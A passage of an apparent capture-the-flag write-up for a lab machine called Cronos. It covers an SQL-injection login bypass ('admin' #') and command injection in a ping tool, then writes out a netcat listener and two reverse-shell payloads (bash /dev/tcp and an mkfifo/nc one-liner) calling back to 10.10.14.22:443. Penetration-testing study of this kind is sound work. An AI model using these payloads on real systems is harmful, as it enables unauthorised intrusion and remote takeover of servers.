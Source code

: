 ![welcome](/images/cronos/welcome_code.png)


This appears to be Tool that does ping and traceroute, but we cannot access it.
ExploitDB shows there is an easy command injection on the tool 


Since we cannot use this exploit and have not found a way in yet, we go back to trying to login to the admin page again.

What if we don't need to authenticate and we can bypass login.

Going back to SQLi and trying common authentication bypass methods like: admin' #

We are able to login!

Now we can try a command injection simply by appending bash commands 

![wecome_admin](/images/cronos/wecome_admin.png)


#### Foothold 


Set up a netcat listener 

> nc -lnvp 443

and run a bash reverse shell on the Net Tool interface
> 8.8.8.8; /bin/bash -i >& /dev/tcp/10.10.14.22/443 0>&1

Doesn't work, let's try netcat.

"8.8.8.8; which nc" shows netcat is installed (/bin/nc)

Using the below netcat command we get a reverse shell

>8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|/bin/nc 10.10.14.22 443 >/tmp/f
